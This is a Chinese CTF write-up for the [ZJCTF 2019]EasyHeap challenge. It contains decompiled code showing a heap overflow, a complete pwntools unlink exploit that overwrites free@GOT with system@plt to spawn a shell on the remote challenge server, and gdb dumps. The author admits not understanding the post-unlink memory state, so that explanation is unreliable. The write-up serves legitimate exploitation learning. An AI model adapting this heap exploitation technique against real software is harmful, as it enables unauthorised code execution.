 # [ZJCTF 2019]EasyHeap

[题目地址](https://buuoj.cn/challenges#[ZJCTF%202019]EasyHeap)

真的看不懂unlink，不知道脑子怎么了。

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

看到堆我就没力气打了，真的对堆一窍不通，毫无夸张成分。程序本身很清晰。

```c
void main(void)

{
  int iVar1;
  long in_FS_OFFSET;
  char local_18 [8];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  do {
    while( true ) {
      while( true ) {
        menu();
        read(0,local_18,8);
        iVar1 = atoi(local_18);
        if (iVar1 != 3) break;
        delete_heap();
      }
      if (3 < iVar1) break;
      if (iVar1 == 1) {
        create_heap();
      }
      else if (iVar1 == 2) {
        edit_heap();
      }
      else {
LAB_00400d36:
        puts("Invalid Choice");
      }
    }
    if (iVar1 == 4) {
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
    if (iVar1 != 0x1305) goto LAB_00400d36;
    if (magic < 0x1306) {
      puts("So sad !");
    }
    else {
      puts("Congrt !");
      l33t();
    }
  } while( true );
}
```

直接步入重点漏洞函数，别的没啥看的，反正不会。

```c
void edit_heap(void)

{
  int iVar1;
  int iVar2;
  long in_FS_OFFSET;
  char local_18 [8];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("Index :");
  read(0,local_18,4);
  iVar1 = atoi(local_18);
  if ((iVar1 < 0) || (9 < iVar1)) {
    puts("Out of bound!");
                    /* WARNING: Subroutine does not return */
    _exit(0);
  }
  if (*(long *)(heaparray + (long)iVar1 * 8) == 0) {
    puts("No such heap !");
  }
  else {
    printf("Size of Heap : ");
    read(0,local_18,8);
    iVar2 = atoi(local_18);
    printf("Content of heap : ");
    read_input(*(undefined8 *)(heaparray + (long)iVar1 * 8),(long)iVar2);
    puts("Done !");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

又是经典毛病，随意输入导致堆溢出。这种题跟栈类比相当于程序里使用了gets函数，确实baby，可惜我的智商tm是负数。有两种方法，house of spirit和unlink。跟着[大佬](https://blog.csdn.net/weixin_45677731/article/details/108204244)选了unlink,之前已经学过一遍了，果不其然还是没懂。先放wp。

```python
from pwn import *
sh=remote("node4.buuoj.cn",25613)
free_got=0x00602018
system_plt=0x00400700
context.log_level='debug'
ptr=0x6020e8
def add(size,content):
    sh.recvuntil("Your choice :")
    sh.sendline('1')
    sh.recvuntil("Size of Heap : ")
    sh.sendline(str(size))
    sh.recvuntil("Content of heap:")
    sh.sendline(content)

def edit(idx, size, content):
    sh.recvuntil("Your choice :")
    sh.sendline('2')
    sh.recvuntil("Index :")
    sh.sendline(str(idx))
    sh.recvuntil("Size of Heap : ")
    sh.sendline(str(size))
    sh.recvuntil("Content of heap : ")
    sh.sendline(content)

def delete(idx):
    sh.recvuntil("Your choice :")
    sh.sendline('3')
    sh.recvuntil("Index :")
    sh.sendline(str(idx))

add(0x100,'aaaa')
add(0x20,'bbbb')
add(0x80,'cccc')

payload=p64(0)+p64(0x21)+p64(ptr-0x18)+p64(ptr-0x10)
payload+=p64(0x20)+p64(0x90)
edit(1,len(payload),payload)

delete(2)

payload=p64(0)+p64(0)+p64(free_got)
payload+=p64(ptr-0x18)+p64(ptr+0x10)+b"/bin/sh"
edit(1,len(payload),payload)
edit(0,8,p64(system_plt))
delete(2)
sh.interactive()
```

先add几个堆块，按照索引命名，chunk0-2。chunk0用来实际改free got表，chunk1为unlink制造条件，chunk2实施unlink。第一个payload主要是在chunk1中构造一个假chunk，这个chunk卡在原chunk1的数据域，p64(0)+p64(0x21)伪装prev_size和size，p64(ptr-0x18)+p64(ptr-0x10)伪装fd和bk，因为这里假装的是一个空闲chunk，数据域在空闲时就是fd和bk。p64(0x20)+p64(0x90)这段溢出到chunk2的prev_size和size域。0x20是因为刚刚伪造的那个chunk就这么大；0x90是自己的大小，同时由于低位是0，表示前一个伪装的chunk为free状态。我们把一切布置得以假乱真，系统就会相信那个伪装的chunk真的存在，状态是free。

delete（2）触发unlink，就会让chunk2和伪装chunk合并在一起，看[ctf wiki](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/unlink/#_3)说效果是把ptr指向的地址改为ptr-0x18。ptr是0x6020e8，那现在ptr就指向了0x6020d0。接下来我就不懂了。理论上现在0x6020e8（heaparray中指向chunk1的地址）应该指向0x6020d0，那编辑chunk1时就是编辑0x6020d0。做了个调试，里面长这样：

```
(gdb) $ x/16g 0x006020d0
0x6020d0:    0x0000000000000000    0x0000000000000000
0x6020e0 <heaparray>:    0x0000000000bad2a0    0x0000000000bad3b0
0x6020f0 <heaparray+16>:    0x0000000000000000    0x0000000000000000
0x602100 <heaparray+32>:    0x0000000000000000    0x0000000000000000
0x602110 <heaparray+48>:    0x0000000000000000    0x0000000000000000
0x602120 <heaparray+64>:    0x0000000000000000    0x0000000000000000
```

最开始觉得p64(0)+p64(0)+p64(free_got)正好覆盖到0x6020e0，把chunk0在heaparray中的地址改为free_got。然而后面那些东西就看不出来了，应该不是这样搞的。后来再想想，难道不是让0x6020e8指向0x6020d0，而是让0x6020e8指向的东西指向0x6020d0？感觉也不对，因为后面调试输入的a还在原chunk里。

```
(gdb) $  x/16g 0x006020d0
0x6020d0:    0x0000000000000000    0x0000000000000000
0x6020e0 <heaparray>:    0x0000000000bad2a0    0x0000000000bad3b0
0x6020f0 <heaparray+16>:    0x0000000000000000    0x0000000000000000
0x602100 <heaparray+32>:    0x0000000000000000    0x0000000000000000
0x602110 <heaparray+48>:    0x0000000000000000    0x0000000000000000
0x602120 <heaparray+64>:    0x0000000000000000    0x0000000000000000
0x602130:    0x0000000000000000    0x0000000000000000
0x602140:    0x0000000000000000    0x0000000000000000
(gdb) $ x/16x  0x0000000000bad3b0
0xbad3b0:    0x0000000a61616161    0x0000000000000021
0xbad3c0:    0x00000000006020d0    0x00000000006020d8
0xbad3d0:    0x0000000000000020    0x0000000000000090
0xbad3e0:    0x0000000000000bad    0xf21694923c78a8a0
0xbad3f0:    0x0000000000000000    0x0000000000000000
```

这个是我在第一个delete后下了断点，然后自己调用edit输入一些a得到的。确实能看到那个假的小堆块，但是为什么输入的a还是在这？套进原payload也看不懂，麻了。难道断点断错了？不懂，等我继续积累别的题再说吧。另一种方法乍一看比这个复杂，但似乎比这个好理解多了。